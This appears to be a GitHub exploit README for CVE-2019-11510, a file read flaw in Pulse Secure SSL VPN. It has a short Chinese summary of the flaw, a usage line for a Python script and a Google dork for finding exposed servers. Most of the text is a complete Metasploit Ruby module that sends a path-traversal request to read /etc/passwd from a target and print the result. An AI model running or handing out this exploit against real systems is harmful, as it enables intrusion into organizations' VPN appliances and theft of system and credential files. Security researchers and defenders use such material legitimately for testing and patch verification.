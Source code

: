 # CVE-2019-11510-1  

## Exploit for Arbitrary File Read on Pulse Secure SSL VPN (CVE-2019-11510)  

## 漏洞简介  
Pulse Secure Pulse Connect Secure（又名PCS，前称Juniper Junos Pulse）是美国Pulse Secure公司的一套SSL VPN解决方案。 Pulse Secure PCS 9.0RX版本、8.3RX版本和8.2RX版本中存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

## python usage:

`python CVE-2019-11510.py https://x.x.x.x`

![](CVE-2019-11510/CVE-2019-11510.jpg)



## 漏洞EXP(MSF的ruby语言的EXP)  

```ruby
# Exploit Title: File disclosure in Pulse Secure SSL VPN (metasploit)
# Google Dork: inurl:/dana-na/ filetype:cgi
# Date: 8/20/2019
# Exploit Author: 0xDezzy (Justin Wagner), Alyssa Herrera
# Vendor Homepage: https://pulsesecure.net
# Version: 8.1R15.1, 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4
# Tested on: Linux
# CVE : CVE-2019-11510 
require 'msf/core'
class MetasploitModule < Msf::Auxiliary
	include Msf::Exploit::Remote::HttpClient
	include Msf::Post::File
	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Pulse Secure - System file leak',
			'Description'    => %q{
				Pulse Secure SSL VPN file disclosure via specially crafted HTTP resource requests.
        This exploit reads /etc/passwd as a proof of concept
        This vulnerability affect ( 8.1R15.1, 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4
			},
			'References'     =>
			    [
			        [ 'URL', 'http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11510' ]
			    ],
			'Author'         => [ '0xDezzy (Justin Wagner), Alyssa Herrera' ],
			'License'        => MSF_LICENSE,
			 'DefaultOptions' =>
		      {
		        'RPORT' => 443,
		        'SSL' => true
		      },
			))

	end


	def run()
		print_good("Checking target...")
		res = send_request_raw({'uri'=>'/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/'},1342)

		if res && res.code == 200
			print_good("Target is Vulnerable!")
			data = res.body
			current_host = datastore['RHOST']
			filename = "msf_sslwebsession_"+current_host+".bin"
			File.delete(filename) if File.exist?(filename)
			file_local_write(filename, data)
			print_good("Parsing file.......")
			parse()
		else
			if(res && res.code == 404)
				print_error("Target not Vulnerable")
			else
				print_error("Ooof, try again...")
			end
		end
	end
	def parse()
		current_host = datastore['RHOST']

	    fileObj = File.new("msf_sslwebsession_"+current_host+".bin", "r")
	    words = 0
	    while (line = fileObj.gets)
	    	printable_data = line.gsub(/[^[:print:]]/, '.')
	    	array_data = printable_data.scan(/.{1,60}/m)
	    	for ar in array_data
	    		if ar != "............................................................"
	    			print_good(ar)
	    		end
	    	end
	    	#print_good(printable_data)

		end
		fileObj.close
	end
end
```

### 参考链接：  

https://github.com/jas502n/CVE-2019-11510-1  

https://hackerone.com/reports/591295  

https://github.com/projectzeroindia/CVE-2019-11510  

https://www.anquanke.com/vul/id/1589103  